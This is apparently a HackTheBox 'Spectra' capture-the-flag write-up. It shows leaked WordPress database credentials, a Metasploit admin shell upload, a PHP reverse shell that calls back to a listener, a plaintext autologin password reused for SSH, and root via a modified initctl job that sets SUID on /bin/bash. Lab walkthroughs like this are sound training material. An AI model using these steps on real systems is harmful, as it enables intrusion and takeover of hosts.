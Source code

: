 ![SPECTRA](images/banner.png)

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
    80/tcp   open  http    nginx 1.17.4
    3306/tcp open  mysql   MySQL (unauthorized)
    
Visiting the linked site we find a testing area and by visitng http://spectra.htb/testing/ with a borwser we get the listing of the content.

In the sourcecode of wp-config.php.save we can find the DB passowrd devteam01:
    
    view-source:http://spectra.htb/testing/wp-config.php.save
    
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'dev' );

    /** MySQL database username */
    define( 'DB_USER', 'devtest' );

    /** MySQL database password */
    define( 'DB_PASSWORD', 'devteam01' );

    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8' );

    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );
    
With the password and the username "administrator" of the blog we can use meterpreter:

    unix/webapp/wp_admin_shell_upload
    
<img src="images/meterpreter.png">

In meterpreter we can upload a shell to /usr/local/share/nginx/html/main/wp-content/plugins/:
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Set up the listener and visit http://spectra.htb/main/wp-content/plugins/php-reverse-shell.php 

At /opt we can find a weird config:

    # Copyright 2016 The Chromium OS Authors. All rights reserved.
    # Use of this source code is governed by a BSD-style license that can be
    # found in the LICENSE file.
    description   "Automatic login at boot"
    author        "chromium-os-dev@chromium.org"
    # After boot-complete starts, the login prompt is visible and is accepting
    # input.
    start on started boot-complete
    script
      passwd=
      # Read password from file. The file may optionally end with a newline.
      for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
        if [ -e "${dir}/passwd" ]; then
          passwd="$(cat "${dir}/passwd")"
          break
        fi
      done
      if [ -z "${passwd}" ]; then
        exit 0
      fi
      # Inject keys into the login prompt.
      #
      # For this to work, you must have already created an account on the device.
      # Otherwise, no login prompt appears at boot and the injected keys do the
      # wrong thing.
      /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
    end script
    
Following this /etc/autologin path you will find a passwd file with:

    "SummerHereWeCome!!"
    
That password we can use to login via ssh as katie.


Using sudo -l gives us:
```
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```


With 
```
sudo -u root /sbin/initctl list
```
we get services like:
```
smbproviderd stop/waiting
tpm_managerd start/running, process 826
udev start/running, process 238
test stop/waiting
test1 stop/waiting
autologin stop/waiting
boot-services start/running

```
Now we can modify the test service at /etc/init to get a root shell like:
```
script

    chmod +s /bin/bash

end script
```
And spawn it with:
```
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 4011
katie@spectra /etc/init $ /bin/bash -p
bash-4.3# whoami
root
```
(see: https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9 )



